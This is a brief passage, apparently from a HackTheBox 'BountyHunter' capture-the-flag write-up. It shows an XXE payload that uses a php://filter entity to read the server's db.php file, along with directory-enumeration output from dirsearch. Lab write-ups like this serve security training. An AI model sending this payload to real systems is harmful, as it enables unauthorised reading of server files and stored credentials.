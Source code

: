 ![Burp Suite - XXE Attempt 1](./assets/screenshots/hackthebox_bountyhunter_burpsuite_xxe_attempt_1.png)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>
```

```
┌──(nabla㉿kali)-[~]
└─$ dirsearch -u http://bountyhunter.htb

[SNIP]

[11:59:17] 200 -    0B  - /db.php

[SNIP]
```

![Burp Suite - XXE Attempt 2](./assets/screenshots/hackthebox_bountyhunter_burpsuite_xxe_attempt_2.png)